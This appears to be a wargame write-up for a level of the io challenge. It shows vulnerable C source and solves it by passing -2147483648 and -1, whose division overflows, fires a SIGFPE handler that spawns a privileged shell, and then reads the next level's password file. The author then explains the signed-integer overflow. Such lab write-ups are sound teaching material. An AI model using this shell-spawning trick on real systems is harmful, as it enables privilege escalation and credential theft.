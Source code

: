 Check out the source file to see what we need to do:
```
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <setjmp.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
    puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

We see that there's a signal to catch a SIGFPE: a floating point exception. Something like this can be caused by dividing by zero or some other similar exception (as you'll see below). We also see that there's a check to make sure we supply two command line arguments, and the second argument can not be zero. As the final return line shows, the first argument is dividied by the second and the absolute value of this operation is returned. Since argv[2] can't be zero, we need to find some other way to cause an exception.

Now here's the solution:
```
level2@io:/levels$ ./level02 -2147483648 -1
source code is available in level02.c

WIN!
sh-4.2$ cat /home/level3/.pass
[Password to level3]
```

* To be perfectly honest, I'm not totally sure why this works. I played around with
these numbers for a little while and I just happened to get the right ones. I'll
look into a bit more to figure out exactly why this causes a SIGFPE.

Update: After doing some more playing in gdb and refreshing my mind a bit, I think I understand the issue. Signed numbers are represented by the most significant bit being 1. So the number 2147483647 is:
```
0x7fffffff -> 0111 1111 1111 1111 1111 1111 1111 1111
```
and that is the largest positive 32 bit signed integer value. So when we add 1 to it it becomes 2147483648 (or -2147483648 in this specific case) which is represented as:
```
0x80000000 -> 1000 0000 0000 0000 0000 0000 0000 0000
```
Now we've wrapped back around and we have a very large negative number. When we try to divide -2147483648 by -1 the answer would obviously be 2147483648. The problem is that that number can't be represented in the world of 32 bit signed integers. Hence the SIGFPE. I believe that's the full explanation.
